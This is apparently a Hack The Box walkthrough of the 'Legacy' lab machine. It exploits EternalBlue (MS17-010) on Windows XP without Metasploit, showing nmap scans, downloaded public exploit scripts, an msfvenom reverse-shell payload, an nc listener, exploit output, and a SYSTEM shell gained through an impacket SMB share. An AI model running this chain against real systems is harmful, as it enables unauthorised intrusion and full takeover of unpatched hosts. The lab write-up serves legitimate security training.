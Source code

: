 ```yaml
---
title: Hack The Box - Legacy (Without Metasploit)
date: 2021-01-12 14:00:00 +0800
categories: [hackthebox]
tags: [windows, eternalblue]
---
```


![](/assets/images/legacy.png){:height="414px" width="615px"}

# Configuration

The operating system that I will be using to tackle this machine is a Kali Linux VM.

What I learnt from other writeups is that it was a good habit to map a domain name to the machine's IP address so as that it will be easier to remember. This can done by appending a line to `/etc/hosts`.

```bash
$ echo "10.10.10.4 legacy.htb" | sudo tee -a /etc/hosts
```

# Reconnaissance

```bash 
$ nmap -sT -sV -sC -Pn -p- legacy.htb  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 08:13 EST
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.010s latency).

PORT    STATE SERVICE      VERSION
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_clock-skew: mean: -4h00m00s, deviation: 1h24m51s, median: -5h00m00s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:87:21 (VMware)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2021-01-10T12:13:27+02:00
| smb-security-mode: 
|   account_used: <blank>
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
|_smb2-time: Protocol negotiation failed (SMB2)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 57.34 seconds
```

# Enumeration

## Port 445 `Windows XP microsoft-ds`

If we use the `smb-vuln-*` scripts of `nmap`, we see that it has some vulnerabilities.

```bash
$ nmap -Pn -p 445 --script smb-vuln-* legacy.htb  
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2021-01-10 08:17 EST
Nmap scan report for legacy.htb (10.10.10.4)
Host is up (0.013s latency).

PORT    STATE SERVICE
445/tcp open  microsoft-ds

Host script results:
| smb-vuln-ms08-067: 
|   VULNERABLE:
|   Microsoft Windows system vulnerable to remote code execution (MS08-067)
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2008-4250
|           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
|           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
|           code via a crafted RPC request that triggers the overflow during path canonicalization.
|           
|     Disclosure date: 2008-10-23
|     References:
|       https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
|_smb-vuln-ms10-054: false
|_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
| smb-vuln-ms17-010: 
|   VULNERABLE:
|   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-0143
|     Risk factor: HIGH
|       A critical remote code execution vulnerability exists in Microsoft SMBv1
|        servers (ms17-010).
|           
|     Disclosure date: 2017-03-14
|     References:
|       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
|       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143

Nmap done: 1 IP address (1 host up) scanned in 7.35 seconds
```

# Exploitation

Out of these 2 vulnerabilties, I will be picking `CVE-2017-0143`, or better known as `EternalBlue`. `Metasploit` has modules that exploit this vulnerability but I will be using some scripts that I found on Github that are able to do the same job.

```bash
$ mkdir eternalblue
$ curl https://raw.githubusercontent.com/helviojunior/MS17-010/master/send_and_execute.py > eternalblue/send_and_execute.py
$ curl https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py > eternalblue/mysmb.py
$ curl https://raw.githubusercontent.com/worawit/MS17-010/master/checker.py > eternalblue/checker.py
```

Exploiting `EternalBlue` requires us to find an accessible named pipe, so lets run `checker.py`.

```bash
$ python eternalblue/checker.py legacy.htb
Target OS: Windows 5.1
The target is not patched

=== Testing named pipes ===
spoolss: Ok (32 bit)
samr: STATUS_ACCESS_DENIED
netlogon: STATUS_ACCESS_DENIED
lsarpc: STATUS_ACCESS_DENIED
browser: Ok (32 bit)
```

It seems there are 2 named pipes we can use and note that the machine is `32-bit`. Now we just need to prepare an executable that establishes a reverse shell connection back to us when executed. We can use msfvenom for this.

```bash
$ msfvenom -p windows/shell_reverse_tcp LHOST=tun0 LPORT=1337 -f exe > reverse.exe 
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 324 bytes
Final size of exe file: 73802 bytes
```

Now that is done, we setup our `nc` listener.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
```

Then finally we can exploit the vulnerability with `send_and_execute.py` and specifying our executable and the name of the named pipe we want to use.

```bash
$ python eternalblue/send_and_execute.py legacy.htb reverse.exe 445 browser 
Trying to connect to legacy.htb:445
Target OS: Windows 5.1
Groom packets
attempt controlling next transaction on x86
success controlling one transaction
modify parameter count to 0xffffffff to be able to write backward
leak next transaction
CONNECTION: 0x8230d230
SESSION: 0xe16bcf58
FLINK: 0x7bd48
InData: 0x7ae28
MID: 0xa
TRANS1: 0x78b50
TRANS2: 0x7ac90
modify transaction struct for arbitrary read/write
make this SMB session to be SYSTEM
current TOKEN addr: 0xe16beb90
userAndGroupCount: 0x3
userAndGroupsAddr: 0xe16bec30
overwriting token UserAndGroups
Sending file GC726C.exe...
Opening SVCManager on legacy.htb.....
Creating service nrNL.....
Starting service nrNL.....
The NETBIOS connection with the remote host timed out.
Removing service nrNL.....
ServiceExec Error on: legacy.htb
nca_s_proto_error
Done
```

On our listener that we setup beforehand, we receive a connection.

```bash
$ rlwrap nc -lvnp 1337
listening on [any] 1337 ...
connect to [10.10.XX.XX] from (UNKNOWN) [10.10.10.4] 1028
Microsoft Windows XP [Version 5.1.2600]
(C) Copyright 1985-2001 Microsoft Corp.

C:\WINDOWS\system32> whoami
'whoami' is not recognized as an internal or external command,
operable program or batch file.
```

Unfortunately there is no `whoami.exe` but we can run `SMB` server using `smbserver.py` from [`impacket`](https://github.com/SecureAuthCorp/impacket) and share a copy of `whoami.exe` which we can retrieve from `/usr/share/windows-resources/binaries/`.

```bash
$ cd /usr/share/windows-resources/binaries/
$ sudo python3 /usr/share/doc/python3-impacket/examples/smbserver.py kali . 
Impacket v0.9.22 - Copyright 2020 SecureAuth Corporation

[*] Config file parsed
[*] Callback added for UUID 4B324FC8-1670-01D3-1278-5A47BF6EE188 V:3.0
[*] Callback added for UUID 6BFFD098-A112-3610-9833-46C3F87E345A V:1.0
[*] Config file parsed
[*] Config file parsed
[*] Config file parsed
```

Then from the shell we got, we can do this to verify the current user.

```
C:\WINDOWS\system32> \\10.10.XX.XX\kali\whoami.exe
NT AUTHORITY\SYSTEM
```

Alright, we got `SYSTEM`!

# user.txt

The user flag is located at the desktop of `john`.

```
C:\Documents and Settings\john\Desktop> type user.txt
e69aXXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

# root.txt

The root flag is located at the desktop of `Administrator`, as always.

```
C:\Documents and Settings\Administrator\Desktop> type root.txt
9934XXXXXXXXXXXXXXXXXXXXXXXXXXXX
```

### Rooted ! Thank you for reading and look forward for more writeups and articles !